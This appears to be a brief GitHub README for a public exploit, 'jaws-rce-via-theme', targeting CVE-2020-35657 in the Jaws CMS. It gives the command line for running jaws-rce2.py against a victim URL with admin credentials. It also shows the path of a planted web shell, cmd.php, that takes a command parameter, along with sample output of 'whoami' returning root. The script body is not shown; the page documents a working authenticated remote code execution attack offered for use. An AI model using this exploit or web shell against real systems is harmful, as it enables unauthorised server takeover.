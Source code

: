 # jaws-rce-via-theme CVE-2020-35657


python jaws-rce2.py

[+]Usage python jaws-rce2.py http://victim.com/ admin admin

python jaws-rce2.py http://192.168.1.98/jaws-master/jaws-master/ jawsadmin admin


Shell Location=== http://192.168.1.98/jaws-master/jaws-master/data/themes/cmd.php?c=whoami

GIF89a

root

#Discoverer

Bassam Assiri https://twitter.com/BassamAssiri  https://www.linkedin.com/in/bassam-assiri-9418401ab/
